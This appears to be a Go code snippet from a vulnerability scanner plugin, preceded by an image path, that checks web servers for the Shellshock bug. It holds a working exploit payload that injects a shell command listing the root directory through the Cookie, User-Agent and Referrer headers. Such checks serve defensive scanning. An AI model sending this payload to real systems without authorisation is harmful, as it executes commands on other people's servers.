

pocList := []string{
   "() { :;};echo ; echo; echo $(/bin/ls -la /);",
}
for _, poc := range pocList {
   request, err := http.NewRequest("GET", checkURL, nil)
   request.Header.Set("cookie", poc)
   request.Header.Set("User-Agent", poc)
   request.Header.Set("Referrer", poc)
   resp, err := util.RequestDo(request, true, 15)
   if err != nil {
      return false
   }
   if strings.Contains(resp.ResponseRaw, "drwxr-xr-x") && strings.Contains(resp.ResponseRaw, "etc") {
      result := d.info
      result.Response = resp.ResponseRaw
      result.Request = resp.RequestRaw
      d.result = append(d.result, result)
      return true
   }
}